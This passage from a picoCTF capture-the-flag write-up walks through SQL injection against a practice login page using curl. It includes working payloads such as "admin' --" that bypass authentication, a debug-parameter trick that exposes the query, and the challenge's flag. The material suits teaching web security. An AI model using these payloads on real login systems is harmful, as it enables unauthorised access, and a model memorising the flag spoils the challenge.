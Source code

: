 ```
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

From what we found, and like **the previous challenge**, we may suspect that the login system is vulnerable to **SQL Injections**, let's try to make a basic injection what it does :

```
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' --X POST --data "username=' OR 1=1 -- &password="
```

This time, we can see that the problem was fixed : 


```html
<h1>SQLi detected.</h1>
```

But the hint of the challenge, it tells us that the password is filtered, but is the username though ? this may tell us that it isn't really checking the password and we may bypass the protal by simply make the database log using only the username. This is possible since the `password` field isn't required. So, attacking the `username` field instead of the `password` field allowed bypassing the authentication logic :

```
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' --X POST --data "username=admin' --"
```

```html
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>
```

It was also possible to set the `debug` parameter in order to inspect the SQL statement:

```
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' --X POST --data "username=' OR 1=1 -- &password=&debug=1"
```
